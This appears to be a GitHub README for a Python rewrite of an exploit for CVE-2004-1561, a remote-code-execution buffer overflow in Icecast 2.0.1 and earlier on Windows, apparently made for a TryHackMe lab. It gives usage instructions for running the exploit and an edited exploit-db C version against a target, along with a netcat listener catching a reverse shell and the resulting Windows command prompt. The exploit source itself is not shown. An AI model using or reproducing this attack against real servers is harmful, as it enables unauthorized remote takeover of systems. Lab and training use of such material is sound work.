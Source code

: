 # CVE-2004-1561 Icecast Header Overwrite buffer overflow RCE < 2.0.1 (Win32)

Python 3 Icecast Header Overwrite buffer overflow RCE < 2.0.1 (Win32), rewritten from this [Metasploit module](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/windows/http/icecast_header.rb). I rewrote this from the Metasploit module because I couldn't get [this](https://www.exploit-db.com/exploits/568) to work.

## Usage:
Replace reverse shell shellcode in exploit, call it with argument for remote server and port.

```
root@Kali:~/TryHackme/Ice# ./icecast.py 192.168.92.133 8000

Done!
```
Reverse shell listener:
```
root@Kali:~/TryHackme/Ice# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.92.128] from (UNKNOWN) [192.168.92.133] 49211
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Program Files (x86)\Icecast2 Win32>
```

## Update for 568-edit.c
Managed to get the [original exploit](https://www.exploit-db.com/exploits/568) to work. Edited according [to this](https://www.exploit-db.com/exploits/573).

### Usage for 568-edit.c
```
root@Kali:~/TryHackme/Ice# gcc 568-edit.c -o 568
root@Kali:~/TryHackme/Ice# ./568 192.168.92.133

Icecast <= 2.0.1 Win32 remote code execution 0.1
by Luigi Auriemma
e-mail: aluigi@altervista.org
web:http://aluigi.altervista.org

shellcode add-on by Delikon
www.delikon.de

- target 192.168.92.133:8000
- send malformed data

Server IS vulnerable!!!
```
On listener
```
root@Kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.92.128] from (UNKNOWN) [192.168.92.133] 49238
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Program Files (x86)\Icecast2 Win32>

```